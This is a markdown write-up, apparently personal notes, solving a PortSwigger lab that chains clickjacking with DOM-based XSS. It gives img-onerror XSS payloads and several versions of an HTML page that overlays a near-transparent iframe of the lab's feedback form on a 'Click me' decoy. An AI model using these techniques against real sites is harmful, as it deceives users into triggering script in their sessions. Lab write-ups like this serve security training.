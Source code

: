 # Exploiting clickjacking vulnerability to trigger DOM-based XSS

## his lab contains an [XSS](https://portswigger.net/web-security/cross-site-scripting) vulnerability that is triggered by a click. Construct a [clickjacking attack](https://portswigger.net/web-security/clickjacking) that fools the user into clicking the "Click me" button to call the `print()` function.

### Note: DOM stored attack

eg:1
`<img src=1 onerror=alert(1)>`
eg:2
`<><img src=1 onerror=alert(1)>`

change to print()
`<img src=1 onerror=print()>`

test with alert(1) once it will pop up alert then change to print() lab solving
test the below script into w3school

```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 7000px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 795px;
    left: 68px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe
  src="https://0a0500fc033ea678803f121800ee00e6.web-security-academy.net/feedback"
></iframe>
```

submit form and intercept into burpsute change request method

```javascript
GET /feedback/submit?csrf=S5g89CgcTy1KMizUyEFm2gld7i1fANSY&name=hello&email=hello%40pk.com&subject=fhh&message=clkjcl
```

### step1

```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 7000px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 795px;
    left: 68px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe
  src="https://0a0500fc033ea678803f121800ee00e6.web-security-academy.net/feedback?name=hello&email=hello%40pk.com&subject=fhh&message=clkjcl"
></iframe>
```

### step2

`set name=<><img src=1 onerror=print()>`

### step3

```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 795px;
    left: 68px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe
  src="https://0a0500fc033ea678803f121800ee00e6.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hello@0pk.com&subject=fhh&message=clkjcl"
></iframe>
```
